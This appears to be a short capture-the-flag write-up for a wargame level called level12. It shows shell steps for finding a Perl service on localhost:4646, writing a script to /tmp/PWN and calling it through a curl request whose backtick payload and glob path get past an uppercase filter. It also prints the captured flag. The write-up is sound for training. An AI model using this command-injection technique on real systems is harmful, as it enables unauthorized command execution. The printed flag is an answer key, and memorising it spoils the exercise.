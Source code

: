 # level12

we got some intel from level00

```shell
dr-xr-x---  2 flag12 level12  33 Mar 12  2016 level12

/var/www/level12

/rofs/var/www/level12
```

1. examinate existing files permissions

```shell
ls -la
```

shows a perl script that is supposed to run on localhost:4646

2. look for the file we previously saw

```shell
cat /var/www/level12/level12.pl
```

shows the same script, as flag12:level12

3. try to connect to it with netcat

```shell
nc localhost 4646
```

waits for an input, and replies `..` as expected when given a random input

4. create a custom file with an uppercase name to trick regex to match

```shell
echo "getflag | wall" > /tmp/PWN
```

5. inject some code to get the flag

```shell
curl 'localhost:4646?x=`/*/PWN`'
```

gives flag: `g1qKMiRpXf53AWhDaU7FEkczr`
